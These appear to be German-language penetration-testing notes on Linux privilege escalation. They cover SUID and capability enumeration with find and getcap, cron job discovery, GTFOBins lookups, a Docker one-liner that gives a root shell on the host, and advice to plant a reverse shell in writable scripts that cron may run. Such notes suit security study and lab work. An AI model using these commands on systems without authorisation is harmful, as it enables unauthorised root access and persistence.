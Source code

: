 SUID commands:
```bash
find / -user root -perm /4000 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -type f -name '*.txt' 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid

getcap -r / 2>/dev/null
```

=> Findet man Dateien oder Versionen von Applikationen kann man die in https://gtfobins.github.io/ nachschauen z.B. wenn man Berechtigungen hat Docker zu starten:
```bash
# Erstellt eine Root Shell mit Docker
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
### Cronjobs
Cronjobs sind jobs die z.B. Skripte ausführen

Ziel ist dabei ein cronjob zu finden, der von root ausgeführt wird und wo man die Datei verändern kann -> Reverse shell

Paar commands für cronjob stuff:
```bash
# Cronjobs für andere user
crontab -l -u <username>

# Cronjobs für sich selbst
crontab -l

# Cronjobs von root
sudo crontab -l # Oft in Verbindung mit sudo -l
cat /etc/crontab
cat /etc/cron.d/*

# Suche nach cronjobs, die auf beschreibare Dateien zeigen
find /etc/cron* /var/spool/cron -type f -exec ls -l {} \;
```

(Mehr cronjob commands sind in Hacktools zu finden)

Manchmal muss man auch nicht wissen ob es cronjobs gibt um es zu testen
-> Findet man ein z.B. Skript, dass man bearbeiten kann sollte man da einfach mal testweise eine Reverseshell reinpflanzen und schauen ob die Datei vielleicht regelmäßig von einem cronjob ausgeführt wird

### GTFO Bins
https://gtfobins.github.io/

Manchmal findet man Informationen zum System oder veraltete Versionen, die man dann einfach mal in GTFO bins nachschauen kann.
